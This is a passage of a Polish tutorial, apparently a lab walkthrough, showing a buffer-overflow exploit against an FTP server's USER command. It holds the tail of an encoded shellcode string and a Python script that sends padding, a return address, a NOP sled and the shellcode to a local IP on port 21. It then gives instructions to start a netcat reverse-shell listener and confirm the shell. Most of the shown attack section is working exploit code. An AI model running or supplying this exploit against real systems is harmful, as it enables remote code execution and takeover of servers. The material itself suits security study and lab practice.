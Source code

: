 ```
"\x8f\xd5\x06\x59\x98\x6e\x75\x6b\x07\xc5\x11\xc7\xc0\xc3\xe6"+
"\x28\xfb\xb4\x78\xd7\x04\xc5\x51\x1c\x50\x95\xc9\xb5\xd9\x7e"+
"\x09\x39\x0c\xd0\x59\x95\xff\x91\x09\x55\x50\x7a\x43\x5a\x8f"+
"\x9a\x6c\xb0\xb8\x31\x97\x53\x07\x6d\x66\x22\xef\x6c\x88\x34"+
"\xac\xf9\x6e\x5c\x5c\xac\x39\xc9\xc5\xf5\xb1\x68\x09\x20\xbc"+
"\xab\x81\xc7\x41\x65\x62\xad\x51\x12\x82\xf8\x0b\xb5\x9d\xd6"+
"\x23\x59\x0f\xbd\xb3\x14\x2c\x6a\xe4\x71\x82\x63\x60\x6c\xbd"+
"\xdd\x96\x6d\x5b\x25\x12\xaa\x98\xa8\x9b\x3f\xa4\x8e\x8b\xf9"+
"\x25\x8b\xff\x55\x70\x45\xa9\x13\x2a\x27\x03\xca\x81\xe1\xc3"+
"\x8b\xe9\x31\x95\x93\x27\xc4\x79\x25\x9e\x91\x86\x8a\x76\x16"+
"\xff\xf6\xe6\xd9\x2a\xb3\x07\x38\xfe\xce\xaf\xe5\x6b\x73\xb2"+
"\x15\x46\xb0\xcb\x95\x62\x49\x28\x85\x07\x4c\x74\x01\xf4\x3c"+
"\xe5\xe4\xfa\x93\x06\x2d")



string = 'A' * 230 + "\xfb\x41\xbd\x7c" + "\x90" * 50 + shell_code
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.241.133',21))
s.recv(1024)
s.send('USER ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
```

Następnie należy uruchomić nasłuchiwanie na połączenie reverse shell na hoście atakującym. Można to zrobić na przykład za pomocą polecenia ```nc -lnvp <nr portu>```. Po włączeniu nasłuchiwania należy wreszcie uruchomić finalną wersję naszego skryptu.
![](https://i.imgur.com/xhVvTcz.png)
W tym momencie można się chwilę pomodlić i oczekiwać na reakcję w terminalu nasłuchującym na połączenie. Po pojawieniu się informacji o połączeniu należy wydać głośny sygnał dźwiękowy "ŁIIIIIIIIII" mówiący o powodzeniu i pokazujący radość. Po ochłonięciu można sprawdzić jakim jesteśmy użytkownikiem. 
![](https://i.imgur.com/h9AdGMn.png)

